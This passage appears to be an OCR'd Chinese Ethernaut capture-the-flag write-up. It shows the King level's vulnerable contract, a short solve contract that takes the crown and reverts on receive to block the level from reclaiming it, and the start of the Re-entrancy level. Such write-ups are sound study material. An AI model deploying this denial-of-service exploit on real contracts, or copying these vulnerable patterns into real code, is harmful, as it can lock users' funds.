         constructor() payable {
          owner = msg.sender;  
          king = msg.sender;
          prize = msg.value;
        }
      
        receive() external payable {
          require(msg.value >= prize || msg.sender == owner);
          payable(king).transfer(msg.value);
          king = msg.sender;
          prize = msg.value;
        }
      
        function _king() public view returns (address) {
          return king;
        }
      }
      ```

      *   成为king

          只需要我们发送的value>prize即可,但在提交实例时,关卡将收回king,需要合约的回退函数执行 revert

          ```solidity
          pragma solidity ^0.8.0;
          
          
          contract solve{
              constructor(address target) payable {
                  address(target).call{value:msg.value}("");
              }
              receive() payable external{
                  revert();
              }
          }
          ```

11.   **Re-entrancy**

      ```solidity
      // SPDX-License-Identifier: MIT
      pragma solidity ^0.6.12;
      
      import 'openzeppelin-contracts-06/math/SafeMath.sol';
      
      contract Reentrance {
        
        using SafeMath for uint256;
        mapping(address => uint) public balances;
      
        function donate(address _to) public payable {
          balances[_to] = balances[_to].add(msg.value);
        }
      
        function balanceOf(address _who) public view returns (uint balance) {
          return balances[_who];
        }
      